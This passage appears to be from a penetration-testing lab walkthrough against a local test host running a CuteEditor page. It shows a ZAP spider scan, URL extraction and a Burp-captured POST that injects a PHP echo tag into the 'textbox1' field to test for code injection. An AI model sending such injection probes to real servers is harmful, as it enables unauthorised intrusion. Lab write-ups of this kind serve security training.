 `zaproxy`

`Sites: http://192.168.56.140` > `<right-click>` > `Attack` > `Spider...` > `Starting Point: http://192.168.56.140`, `Recurse: enabled`, `Show Advanced Options: enabled` > `Start Scan` > `Export` > `./spider.csv`

`cat ./spider.csv`:
```
Processed,Method,URI,Flags
true,GET,http://192.168.56.140,Seed
true,GET,http://192.168.56.140/cuteeditor_files,Seed
true,GET,http://192.168.56.140/cuteeditor_files/Scripts/resource.php?type=license&_ver=1728653866100,Seed

[...]

false,GET,http://cutesoft.net/data/Fish.jpg,Out of Scope
true,POST,http://192.168.56.140/Edithtml.php?postback=true,
true,GET,http://192.168.56.140/cuteeditor_files/Images/1x1.gif?0.4161063,
```

`cat ./spider.csv | grep "true" | cut -d ',' -f 3 | tee ./spider_urls.list`:
```
http://192.168.56.140
http://192.168.56.140/cuteeditor_files
http://192.168.56.140/templates.php

[...]

http://192.168.56.140/cuteeditor_files/Images/1x1.gif?0.5972733
http://192.168.56.140/Edithtml.php?postback=true ←
http://192.168.56.140/cuteeditor_files/Images/1x1.gif?0.4161063
```

`firefox` > `http://192.168.56.140/Edithtml.php?postback=true`

`burpsuite`

`HTTP Request`:
```http
POST /Edithtml.php?postback=true HTTP/1.1
Host: 192.168.56.140
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://192.168.56.140
Connection: close
Referer: http://192.168.56.140/Edithtml.php?postback=true
Cookie: PHPSESSID=bo5uopb8kvqjm3v5u17obv21fn
Upgrade-Insecure-Requests: 1

Editor1=&Editor1ClientState=&Save.x=6&Save.y=6&textbox1=%3C%3Fphp+echo+%22TEST%22+%3F%3E ←
```
`HTTP Response`:
```http
HTTP/1.1 200 OK ←
Server: nginx/1.18.0
Date: Fri, 11 Oct 2024 14:57:34 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 39945

```